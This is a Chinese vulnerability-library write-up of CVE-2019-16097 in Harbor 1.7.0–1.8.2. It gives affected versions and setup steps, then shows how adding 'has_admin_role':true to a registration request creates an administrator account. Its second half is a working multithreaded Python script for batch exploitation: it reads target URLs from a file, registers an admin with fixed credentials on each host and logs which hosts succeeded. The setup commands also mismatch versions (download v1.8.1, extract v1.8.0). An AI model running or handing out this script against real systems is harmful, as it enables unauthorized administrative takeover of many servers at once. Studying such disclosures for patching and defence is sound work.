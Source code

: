 ```yaml
---
title: 'Harbor任意管理员注册漏洞.assets'
date: Mon, 07 Sep 2020 13:32:33 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响版本

Harbor 1.7.0版本至1.8.2版本

### 不受影响版本

Harbor>= 1.7.6

Harbor>= 1.8.3

### 复现之环境准备

1.Cenos7安装好docker和docker-compose 2.下载并安装harbor1.8.1在线安装版本

```
wget https://storage.googleapis.com/harbor-releases/release-1.8.0/harbor-online-installer-v1.8.1.tgz

tar xvf harbor-online-installer-v1.8.0.tgz

cd harbor

vi harbor.yml
```

修改hostname为安装Harbor机器的IP地址。 ![](./Harbor任意管理员注册漏洞.assets/cve-2019-16097_1.png) 安装harbor ./install.sh

### 漏洞复现

注册一个Harbor帐号，填写密码时注意要符合规范 ![](./Harbor任意管理员注册漏洞.assets/cve-2019-16097_2.png) 对注册信息进行抓包修改，在post数据后面添加”has\_admin\_role”:true![](./Harbor任意管理员注册漏洞.assets/cve-2019-16097_3.png) 查看\[Response\]，返回201,说明写入成功。 使用admin帐号进入后发现，已经成功写入帐号，并且为管理员权限。![](./Harbor任意管理员注册漏洞.assets/cve-2019-16097_5.png)

### 批量利用poc

```
import requests
import threading
import logging

data='{"username":"biubiubiu","email":"biubiubiu11@qq.com","realname":"biubiu1biu","password":"Aa111111","comment":"biubiubiu","has_admin_role":true}'

headers={"Content-Type": "application/json"}

def poc(url):
    pwn_url=url+"/api/users"
    payload=data
    try:
        r=requests.post(pwn_url, data=payload,headers=headers,timeout=10)
        print(pwn_url)
        print(r.status_code)
        if r.status_code == 201:
            print("\n\n you has created a user,username=biubiubiu,password=Aa111111")
            f.write(url+"       The URL has created a user,username=biubiubiu,password=Aa111111")
        else:
            print("The vulnerability does not exist on the website or the account name has been written")

    except Exception as e:
        logging.warning(pwn_url)
        print(e)

if __name__ == '__main__':
    print ("this is a CVE-2019-16097 poc")
    print("more cve-2019-16097 info welcome to https://www.lstazl.com")
    f=open("results.txt","a")
    url_list=[i.replace("\n","") for i in open("urls.txt","r").readlines()]
    for url in url_list:
        threading.Thread(target=poc,args=(url,)).start()
        while 1:
            if (len(threading.enumerate())<50):
                break
```

1.在urls.txt中添加你要检测的url

2.python3环境下运行cve-2019-16097脚本 python3 cve-2019-16097.py

3.批量检测完成后再results中查看成功写入账号的url。